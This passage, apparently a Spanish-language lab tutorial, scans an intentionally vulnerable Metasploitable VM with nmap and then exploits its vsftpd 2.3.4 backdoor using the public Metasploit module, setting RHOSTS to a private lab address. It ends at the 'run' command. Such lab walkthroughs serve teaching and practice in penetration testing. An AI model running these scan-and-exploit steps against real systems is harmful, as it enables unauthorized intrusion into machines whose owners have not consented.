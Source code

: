 
#### 🔎 FASE 1: Escaneo con Nmap

Desde Kali, descubre servicios abiertos en Metasploitable:

```bash
nmap -sS -sV -O 192.168.56.102
```

Esto te dirá:

- Qué puertos están abiertos
- Qué servicios corren (FTP, SSH, Apache, MySQL, etc.)
- Qué versión de SO está usando

Ejemplo de salida:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
```

---

#### ⚔️ FASE 2: Ataque con Metasploit

##### Paso 1: Inicia Metasploit

```bash
msfconsole
```

---

##### Paso 2: Buscar exploit para `vsftpd 2.3.4` (FTP con backdoor)

```bash
search vsftpd
```

Verás algo como:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

##### Paso 3: Selecciona y configura el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
run
```

---